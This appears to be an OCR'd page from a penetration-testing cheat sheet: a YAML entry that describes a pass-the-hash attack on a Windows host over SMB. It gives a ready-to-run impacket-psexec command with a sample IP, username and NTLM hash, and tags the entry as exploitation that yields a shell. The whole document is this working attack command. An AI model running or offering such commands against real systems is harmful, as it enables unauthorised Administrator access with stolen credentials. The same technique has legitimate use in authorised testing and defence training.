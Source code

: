 ```yaml
---
description: Execute commands on a remote Windows host as Administrator over SMB using Impacket's psexec with NTLM Pass-the-Hash.

Command Reference:
    Target IP: 10.10.10.1
    Domain: N/A
    Username: john
    Hash: 580B16D486D8D2CAFA00B314D41FA396 (NTLM hash)

command: |
  impacket-psexec -hashes 00000000000000000000000000000000:580B16D486D8D2CAFA00B314D41FA396 john@10.10.10.1

items:
  - Hash
  - Shell
  - Powershell

services:
  - SMB
  - NTLM

OS:
  - Windows

attack_types:
  - Exploitation

references:
  - https://github.com/fortra/impacket
  - https://www.hackingarticles.in/a-little-guide-to-impacket/
  - https://learn.microsoft.com/en-us/sysinternals/downloads/psexec
---
```

